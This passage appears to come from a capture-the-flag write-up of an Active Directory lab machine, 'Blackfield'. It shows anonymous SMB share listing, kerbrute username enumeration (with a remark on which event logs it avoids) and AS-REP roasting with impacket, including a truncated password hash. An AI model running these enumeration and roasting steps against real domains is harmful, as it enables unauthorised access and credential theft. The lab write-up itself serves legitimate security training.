 Created a wordlist with the usernames. We may need it in the future.

```bash
smbclient -N //10.129.229.17/profiles\$ -c ls | awk '{print $1}' | grep -oP '[A-Za-z]+' > users.list
```

# Exploitation

There is no HTTP server, LDAP port TCP/389 is closed, SNMP has nothing of interest… Let’s try common Active Directory attacks that don't need authentication, such as AS-REP roasting.

```bash
impacket-GetNPUsers -request -dc-ip 10.129.229.17 blackfield.local/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

[Kerbrute](https://github.com/ropnop/kerbrute) discovered a valid user, *support*. Remember that enumerating users this way is much more stealthier and fast because we generate 4768 error logs instead of the common 4625.

```bash
~/Desktop/tools/kerbrute_linux_amd64 userenum -d blackfield.local --dc dc01.blackfield.local users.list

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/17/24 - Ronnie Flathers @ropnop

2024/07/17 14:07:12 >  Using KDC(s):
2024/07/17 14:07:12 >   dc01.blackfield.local:88

2024/07/17 14:09:26 >  [+] VALID USERNAME:       support@blackfield.local
2024/07/17 14:10:00 >  Done! Tested 315 usernames (1 valid) in 168.320 seconds
```

The *support* user was AS-REP roastable! Now, we could crack the hash or try to kerberoast another user .

```bash
impacket-GetNPUsers -request -dc-ip 10.129.229.17 blackfield.local/support                             
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Cannot authenticate support, getting its TGT
$krb5asrep$23$support@BLACKFIELD.LOCAL:988f98595055d9f9234c3e11891da143$ee...
```

